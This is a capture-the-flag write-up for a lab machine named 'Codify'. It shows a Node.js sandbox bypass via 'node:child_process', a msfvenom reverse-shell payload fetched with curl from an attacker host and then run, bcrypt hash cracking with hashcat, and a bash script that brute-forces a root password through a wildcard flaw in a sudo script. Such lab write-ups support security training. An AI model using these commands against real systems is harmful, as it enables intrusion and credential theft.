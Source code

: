 # Codify

## Shell

The nodejs editor will disallow 'child\_process', but it must be checking for the string as 'node:child\_process' is allowed.  

After trying a sh reverse shell, I uploaded with curl.  

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.84 LPORT=4444 -f elf > shell
```

In the editor.  

```
require('node:child_process').exec('curl http://10.10.14.84:8000/shell -o /tmp/shell');

require('node:child_process').exec('chmod +x /tmp/shell');

require('node:child_process').exec('/tmp/shell');
```

## User

There is a encrypted password in the following database file.  

```
/var/www/contact/tickets.db
```

```
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Cracking with hashcat.  

```
hashcat.exe -m 3200 -a 0 joshua.txt rockyou.txt
```

Creds

```
spongebob1
```

## root

The following hashes are found in the mysql database.  

```
root:4ECCEBD05161B6782081E970D9D2C72138197218
passbolt:63DA7233CC5151B814CBEC5AF8B3EAC43347A203
```

joshua has sudo priv over the script /opt/scripts/mysql-backup.sh, the wildcard matches any character in bash, so I script a brute force solution for the cred.  

```
#!/bin/bash

letters=('a' 'b' 'c' 'd' 'e' 'f' 'g' 'h' 'i' 'j' 'k' 'l' 'm' 'n' 'o' 'p' 'q' 'r' 's' 't' 'u' 'v' 'w' 'x' 'y' 'z')
letters+=('0' '1' '2' '3' '4' '5' '6' '7' '8' '9')
letters+=('A' 'B' 'C' 'D' 'E' 'F' 'G' 'H' 'I' 'J' 'K' 'L' 'M' 'N' 'O' 'P' 'Q' 'R' 'S' 'T' 'U' 'V' 'W' 'X' 'Y' 'Z')

for letter in ${letters[@]};do
  echo "kljh12k3jhaskjh12kjh3$letter"
  echo "kljh12k3jhaskjh12kjh3$letter*" | sudo /opt/scripts/mysql-backup.sh
  sleep 1
done
```

Which gave the final root password.  

```
kljh12k3jhaskjh12kjh3
```
